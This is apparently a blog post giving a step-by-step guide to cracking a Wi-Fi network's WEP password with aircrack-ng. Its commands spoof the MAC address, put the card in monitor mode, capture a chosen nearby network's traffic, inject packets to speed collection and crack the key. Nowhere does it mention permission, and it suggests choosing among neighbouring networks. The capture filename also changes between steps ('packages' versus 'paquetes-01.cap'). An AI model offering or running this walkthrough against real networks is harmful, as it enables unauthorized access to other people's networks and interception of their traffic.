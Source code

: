 ```yaml
---
layout: post
title: "Crack WIFI network's WEP password with Aircrack"
description: "How to crack a WIFI network's WEP password with Aircrack suite"
locale: en
---
```


The first step is to <a href="http://www.aircrack-ng.org/doku.php?id=downloads&DokuWiki=d66620079141170d5df90612b298008d">download</a> the Aicrack-ng suite.

In order to decrypt the WEP key we have to follow the next simple steps:

First, change your hardware address (MAC):

{% highlight bash %}
# ifconfig wlan0 down
# ifconfig wlan0 hw ether 00:11:22:33:44:55
{% endhighlight %}

Now, start package monitoring in the wifi interface (for ex: wlan0), for it, we have to use airmon-ng tool:


    # airmon-ng start wlan0

At this point we need the data necessary to attack the interested network, we will obtain it with:


    # airodump-ng wlan0

It will prompt something like this:
<img src="/uploads/images/full/bbdd5069a2c63a3aabf9b2ad26df7d528c53c542.png" alt="" />
This step is only to get the information to attack the net. From all the networks, probably the best choose will be the one with the less power (PWR column). Once we have chosen one of those, we have to remember the blue data, the **BSSID** (MAC address of the Access point), **PWR** (Power of the signal), **CH** (Channel of the network), **ENC** and **CIPHER** (Network security type) and **ESSID** (Access Point name).

Once we have all the data needed to crack the wifi we can start sniffing packages of the interested network. In our case we have selected "WLAN_DF", in channel 2 with BSSID 00:23:F8:A0:C4:A2:


    # airodump-ng -c 2 -w packages --bssid 00:23:F8:A0:C4:A2 wlan0

At this point we only have to wait to collect about 20000 - 40000 packages, it depends from the network use.

### Optional, package injection
If our wifi driver supports package injection we can increase the speed of package collection using the aireplay-ng tool. The use of it is:

{% highlight bash %}
# aireplay-ng -1 0 -a 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 -e WLAN_DF wlan0
# aireplay-ng -3 -b 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 wlan0
{% endhighlight %}

### Getting the network key
Once recollected a good amount of packages (20000 - 40000) we can try to decrypt the key with the final tool, aircrack-ng:


     # aircrack-ng paquetes-01.cap
